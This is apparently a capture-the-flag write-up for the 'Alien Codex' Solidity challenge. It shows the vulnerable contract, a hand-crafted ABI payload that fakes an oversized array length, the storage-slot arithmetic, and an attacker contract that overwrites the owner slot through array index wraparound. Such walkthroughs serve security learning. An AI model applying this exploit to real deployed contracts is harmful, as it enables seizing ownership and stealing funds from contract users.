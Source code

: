 # Alien Codex
You've uncovered an Alien contract. Claim ownership to complete the level.
Things that might help
* Understanding how array storage works
* Understanding ABI specifications
* Using a very underhanded approach
```javascript
pragma solidity ^0.4.24;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact(bytes32[] _firstContactMessage) public {
    assert(_firstContactMessage.length > 2**200);
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```
To bypass the modifier `contacted` of every function, we need to conquer the condition `assert(_firstContactMessage.length > 2**200);` in `make_contact()` function.

Here's array length, if you try to achieve this with `contract.make_contact()`, you have to build a array which length is greater than 2*200.

We got a better method which just simply modified the array length in transaction payload to fake it without real array elements data.

Let's first get the function id for `web3.eth.sendTransaction()`:
![](https://i.imgur.com/9iNUfNg.png)
```javascript
> FuncID="0x1d3d4c0b";
```

Then let's find what's following:
https://solidity.readthedocs.io/en/v0.4.25/abi-spec.html#examples
https://solidity.readthedocs.io/en/v0.4.25/abi-spec.html#use-of-dynamic-types
```javascript
> Location="0000000000000000000000000000000000000000000000000000000000000020";
```
The location of the data part of the first parameter (dynamic type), measured in bytes from the start of the arguments block. In this case, 0x20.
```javascript
> DataLengh="1000000000000000000000000000000000000000000000000000000000000001";
```
Number of elements of the array, `.length > 2**200`
```javascript
> data=FuncID+Location+DataLengh;
> web3.eth.sendTransaction({from:'/*playerAddress*/',to:'/*instanceAddress*/',data: data,gas: 1111111},function(x,y){console.error(y)});
```

After that, we know that all memory space for a contract is `2**256` slot, and array `codex` store at `slot x`.

If we modify `codex[y](y=2**256-x)`, that might overflow `slot 2**256` back to `slot 0` and overwrite it.

Let's first get in to check the codex storage position.
https://solidity.readthedocs.io/en/v0.4.25/miscellaneous.html#layout-of-state-variables-in-storage

From document, we found that array might store at `keccak256(p)`, `p` is position and allocate with type length, in this case, `bytes32`, so final result is `keccak256((bytes32(1)))`.
```javascript
function test() view returns(bytes32){
    return keccak256((bytes32(1)));
}
```
![](https://i.imgur.com/Wg9wMiC.png)

-> `0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6`

`codex`'s position must be `slot 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6`.

`codex[y](y=2**256-x)` must be `y=2**256-0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6`.

```javascript
function test() view returns(uint){
    return 2**256-0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6;
}
```

```javascript
contract.revise(35707666377435648211887908874984608119992236509074197713628505308453184860938,0xeBaEf941c3F10c33792278Ab7d91549DfEf0782B)
```

```javascript
pragma solidity ^0.5.2;

import 'https://github.com/OpenZeppelin/openzeppelin-solidity/contracts/ownership/Ownable.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact(bytes32[] memory _firstContactMessage) public {
    assert(_firstContactMessage.length > 2**200);
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}

contract AlienCodexAttacker {
    function test(address _instance) public returns(uint){
        AlienCodex target = AlienCodex(_instance);
        target.revise(35707666377435648211887908874984608119992236509074197713628505308453184860938,0x000000000000000000000000eBaEf941c3F10c33792278Ab7d91549DfEf0782B);
    }
}
```
